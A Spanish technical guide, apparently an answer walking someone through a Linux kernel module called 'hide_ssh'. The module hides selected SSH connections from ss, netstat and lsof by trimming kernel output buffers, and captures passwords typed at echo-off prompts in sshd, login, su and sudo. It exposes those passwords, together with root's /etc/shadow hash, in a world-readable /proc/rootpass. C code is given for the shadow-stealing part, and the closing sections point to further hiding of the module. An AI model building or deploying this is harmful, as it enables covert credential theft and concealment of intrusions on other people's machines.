

## Idea general

El módulo no toca la pila de red ni el tráfico. Se limita a engancharse en las funciones del kernel que **redactan informes**: las que convierten un `struct sock` en texto para el userspace. Si el socket es el que tú parametrizaste, se rebobina el búfer justo antes de que el texto salga. La conexión sigue funcionando porque su estado nunca se modifica; simplemente deja de aparecer en los listados.

La segunda parte va por el mismo camino: engancharse en el punto donde el kernel entrega lo tecleado en un tty, y publicar lo capturado junto al hash de root en un fichero de solo lectura.

## Cómo se engancha: kretprobes

`register_kretprobe()` no es un hook de código fuente: escribe una instrucción de trap (`int3` en x86, `brk` en arm64) en los primeros bytes de la función destino y guarda los originales. Cuando algo llama a esa función:

1. La CPU ejecuta el trap.
2. El núcleo de kprobes llama a tu `entry_handler` con `regs` apuntando a los **argumentos** de la llamada.
3. Restaura los bytes originales, ejecuta el cuerpo de la función.
4. Antes del `ret`, un trampolín colocado en la dirección de retorno llama a tu `handler`, con `regs->ax` = valor de retorno y el resto de registros aún con los argumentos del punto 2.
5. Puedes sobrescribir `regs->ax` para falsear el retorno.

`ri->data` es memoria **por invocación** (de tamaño `data_size`, hasta `maxactive` concurrentes). Por eso el estado de una llamada no se mezcla con otra que esté ocurriendo en otro CPU a la vez.

El coste solo existe cuando la función se ejecuta, y nuestras funciones se ejecutan únicamente al listar sockets o al leer de un tty.

## Ruta A: `ss` (netlink)

`ss` no lee `/proc`: abre un socket `NETLINK_SOCK_DIAG` y pide un volcado. En el kernel, `inet_diag_dump_icsk()` recorre `tcp_hashinfo` cubo por cubo y, por cada socket que pasa el filtro, llama a `inet_diag_fill()`. Esa función es el único cuello de botella por el que **cada** socket se convierte en un `nlmsghdr` dentro del `skb` de respuesta. Si la tapas, tapas el listado entero de golpe.



En el `entry_handler` se leen `arg0`/`arg1`, se identifica cuál es el `skb` y cuál el `sock`, y si la tupla no coincide no se hace nada. Si coincide, se guarda `skb->len` y se marca la instancia. En el handler de retorno, `skb_trim(skb, saved_len)` borra exactamente los bytes que la función acababa de añadir: el mensaje desaparece del volcado.

Dos detalles que evitan romper el listado:

- Se devuelve un valor **> 0**. El llamador hace `if (!inet_diag_fill(...)) break;`, donde `0` significa "skb lleno, corta el volcado". Si devolviéramos 0 tras recortar, `ss` se quedaría con la lista truncada a la mitad. Se devuelve la longitud recortada, o `1` si el `skb` quedó vacío.
- `inet_diag_fill()` no se llama a sí misma ni se reimplementa: solo se leen dos argumentos posicionales. Por eso el resto de la firma (que ha ido cambiando: `extack`, `answer_flags`...) da igual. Lo único que cambió de orden fue `(sk, skb)` → `(skb, sk)`, y eso se resuelve con el `#if LINUX_VERSION_CODE < 5.2`.

`ss -t dst 203.0.113.9` (consulta de un solo socket) va por `inet_diag_dump_one_icsk()`, que usa la misma función, así que también queda tapada.

## Ruta B: `netstat`, `lsof`, `/proc/net/tcp`

Aquí el mecanismo de salida es `seq_file`: `tcp4_seq_show()` se invoca una vez por socket y escribe la fila en `seq->buf + seq->count`, incrementando `seq->count`. La fila está físicamente en el búfer pero el lector solo ve hasta `seq->count`.

El truco es idéntico, con otra variable: se guarda `seq->count` en la entrada y se restaura en el retorno. Los bytes siguen ahí, pero el contador retrocede, así que la siguiente escritura los pisa y el lector nunca los ve. La cabecera de la tabla se respeta saltando `SEQ_START_TOKEN`.

`lsof` y `fuser` beben de `/proc/net/tcp`, así que quedan cubiertos por la misma ruta.

## Cómo se decide qué ocultar

`sk_match()` aplica cuatro condiciones:

1. `sk_protocol == IPPROTO_TCP`.
2. Estado: `TCP_LISTEN` solo si activaste `hide_listen`; `TCP_ESTABLISHED` siempre; el resto (`TIME_WAIT`, `FIN_WAIT`...) se deja visible.
3. Comparación de la tupla contra `inet_sport`/`inet_dport` y `sk_rcv_saddr`/`sk_daddr`. Las direcciones y puertos se guardan en orden de red, por eso los parámetros pasan por `htons()`/`in4_pton()`.
4. `hide_both` permite casar también la tupla invertida, para que el extremo cliente desaparezca igual que el servidor.

En un `LISTEN` no hay peer, así que solo se compara la parte local y se tolera un bind a `0.0.0.0` — de lo contrario `hide_listen` no funcionaría con un sshd escuchando en todas las interfaces.

## Parte 2: `/proc/rootpass`

`proc_create("rootpass", 0444, ...)` registra la entrada. El `0444` es lo que la hace legible por cualquiera. `rp_open()` llama a `single_open()`, que crea un `seq_file` cuyo `show` se ejecuta **una sola vez** en el primer `read()` y luego informa de fin de fichero.

### El hash de shadow (y un fallo que hay que corregir)

`rp_show()` corre en contexto de núcleo pero **con las credenciales del proceso que lee**. `filp_open()` pasa por `may_open()` → `inode_permission()`, así que si quien lee no es root, el kernel comprueba los permisos de `/etc/shadow` (0640 root:shadow) **como ese usuario** y devuelve `-EACCES`. Es decir: la versión anterior del módulo fallaría con cualquier usuario no privilegiado.

Lo correcto es leer una vez en contexto de root y cachear. Sustituye la lectura por esto:

```c
static DEFINE_MUTEX(rp_shadow_mtx);
static char *rp_shadow;

static int rp_reload_shadow(void)
{
	struct file *f;
	char *buf, *p, *out = NULL;
	loff_t pos = 0;
	ssize_t n;

	f = filp_open("/etc/shadow", O_RDONLY, 0);
	if (IS_ERR(f))
		return PTR_ERR(f);

	buf = kmalloc(4096, GFP_KERNEL);
	if (!buf) {
		filp_close(f, NULL);
		return -ENOMEM;
	}
	n = kernel_read(f, buf, 4095, &pos);
	filp_close(f, NULL);
	if (n <= 0) {
		kfree(buf);
		return n ? n : -EIO;
	}
	buf[n] = 0;

	p = buf;
	while (p && *p) {
		char *nl = strchr(p, '\n');
		size_t len = nl ? (size_t)(nl - p) : strlen(p);

		if (len > 5 && !strncmp(p, "root:", 5)) {
			out = kmemdup_nul(p, len, GFP_KERNEL);
			break;
		}
		p = nl ? nl + 1 : NULL;
	}
	kfree(buf);

	mutex_lock(&rp_shadow_mtx);
	kfree(rp_shadow);
	rp_shadow = out;
	mutex_unlock(&rp_shadow_mtx);
	return out ? 0 : -ENOENT;
}

static int rp_refresh_set(const char *val, const struct kernel_param *kp)
{
	return rp_reload_shadow();
}
static const struct kernel_param_ops rp_refresh_ops = { .set = rp_refresh_set };
module_param_cb(rp_refresh, &rp_refresh_ops, NULL, 0200);
```

Y en `rp_show()`:

```c
	char shadow[512] = "";

	mutex_lock(&rp_shadow_mtx);
	if (rp_shadow)
		strscpy(shadow, rp_shadow, sizeof(shadow));
	mutex_unlock(&rp_shadow_mtx);

	if (shadow[0])
		seq_printf(m, "shadow: %s\n", shadow);
	else
		seq_puts(m, "shadow: no disponible (root: echo 1 > /sys/module/hide_ssh/parameters/rp_refresh)\n");
```

Se llama a `rp_reload_shadow()` en `__init` y cada vez que root escribe en `rp_refresh`. Como `insmod` y la escritura en sysfs siempre vienen de root, la lectura de shadow va con credenciales de root y los permisos no estorban. Si `/etc` no está montado, se guarda `NULL` y el fichero informa en vez de romperse.

### Captura de contraseñas

`n_tty_read()` es la operación de lectura de la disciplina de línea. En una sesión SSH el recorrido es: las teclas llegan por el socket, sshd las escribe en el maestro del pty, la disciplina del esclavo las almacena, y cuando sshd lee del maestro, `pty_read()` invoca `ld->ops->read()` **sobre el esclavo**, es decir `n_tty_read()`. Por eso el hook ve el texto. En consola y en `su`/`sudo` la llamada es directa.

El discriminante es `L_ECHO(tty)`: con el eco activo el tty devuelve lo tecleado (comandos de shell); con el eco apagado, que es exactamente el estado durante un prompt de contraseña, solo pasa lo escrito a ciegas. Filtrar por `!L_ECHO()` deja prácticamente solo contraseñas. Encima se filtra `current->comm` contra `sshd`, `sshd-session`, `login`, `su`, `sudo`.

En el retorno, `copy_from_user()` copia los bytes leídos a `d->tmp` — que vive en `ri->data`, no en una estática, para que dos lecturas simultáneas en CPUs distintas no se pisen. Se recortan `\n`/`\r`, se descarta lo vacío y se escribe en un anillo de 8 posiciones protegido por spinlock, con proceso, tty y marca de tiempo. `tty_name()` se resuelve en la entrada, para no desreferenciar un `tty` que podría haberse liberado para cuando llega el retorno.

La lectura del anillo en `rp_show()` copia primero a una instantánea en pila bajo el spinlock y solo después imprime: `seq_printf()` puede dormir y no se debe dormir con el spinlock tomado.

## Límites

- Nada anterior a la carga: el anillo empieza vacío y solo recoge lo que se teclee con el módulo puesto.
- Login por clave pública no genera contraseña que capturar; solo tendrás el hash.
- Si algún PAM deja el eco activo, verás también líneas de comandos mezcladas.
- `conntrack -L`, `/proc/net/nf_conntrack`, `tcpdump` y `lsmod` siguen delatando la conexión y el módulo.
- El proceso dueño de la sesión sigue visible en `ps`.

## Detectabilidad

Un rootkit de verdad borraría el módulo de la lista enlazada de módulos y ocultaría sus símbolos. Este no lo hace: `lsmod | grep hide_ssh`, `/sys/module/hide_ssh` y `cat /proc/rootpass` lo delatan. Ocultar esos tres es un trabajo aparte, sobre `modules` y el `kobject` del módulo.